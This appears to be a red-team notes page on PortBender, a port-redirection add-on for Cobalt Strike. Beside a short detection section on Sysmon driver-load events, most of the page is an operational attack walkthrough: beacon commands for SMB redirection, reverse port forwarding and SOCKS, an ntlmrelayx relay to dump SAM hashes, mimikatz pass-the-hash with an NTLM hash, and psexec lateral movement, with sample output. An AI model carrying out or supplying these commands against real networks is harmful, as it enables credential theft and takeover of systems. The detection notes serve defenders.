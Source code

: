 
## Command
``````beacon
beacon> help PortBender
Redirect Usage: PortBender redirect FakeDstPort RedirectedPort
Backdoor Usage: PortBender backdoor FakeDstPort RedirectedPort Password
Examples:
 PortBender redirect 445 8445
 PortBender backdoor 443 3389 praetorian.antihacker

beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
``````

## Detection
One of the main indicators of this activity is the driver load event for WinDivert.  You can find driver loads in Kibana using Sysmon Event ID 6.  Even though the WinDivert driver has a valid signature, seeing a unique driver load on only one machine is an anomalous event.

>event.module: sysmon and event.code: 6 and not file.code_signature.subject_name: "Amazon Web Services, Inc."

As hinted above, the PortBender CNA uses the [bdllspawn](https://www.cobaltstrike.com/aggressor-script/functions.html#bdllspawn) function to spawn a new process and inject the reflective DLL into.  By default, this is rundll32 and will be logged under Sysmon Event ID 1.

## [[NTLM Relaying]]
1. Upload WinDiver64.sys driver to `C:\Windows\system32\drivers`
2. Redirecting SMB to 8445
3. Create a pfwd to relay 8845 to the C2 server with [[ntlmrelayx]] running
4. Start a socks4 on 1080 so SMB can go through
5. NTLM relay the smb connection to dump local SAM hashes
6. Use via [[Pass-the-Hash]] or crack via [[Hashcat]]

Load `PortBender.cna`
``````beacon
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> pwd
[*] Current directory is C:\Windows\system32\drivers

beacon> upload C:\Tools\PortBender\WinDivert64.sys
beacon> PortBender redirect 445 8445
beacon> rportfwd 8445 127.0.0.1 445
[+] started reverse port forward on 8445 to 127.0.0.1:445

beacon> socks 1080
[+] started SOCKS4a server on: 1080

proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.17.68 -smb2support --no-http-server --no-wcf-server
``````

Local NTLM hashes could then be cracked or used with [[Pass-the-Hash]].
``````beacon
beacon> mimikatz sekurlsa::pth /user:Administrator /domain:edu.evil.corp /ntlm:b423cdd3ad21718de4490d9344afef72
beacon> steal_token 21244
beacon> jump psexec64 srv2 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_a3) on srv2 via Service Control Manager (\\srv2\ADMIN$\1985e43.exe)
Started service 3695e43 on srv2
[+] established link to child beacon: 10.10.17.68
``````

```meta
requirements: admin
results: 
opsec: 
oss: #linux
source: https://github.com/praetorian-inc/PortBender
description: TCP Port Redirection Utility for Cobalt Strike
undetected: 
```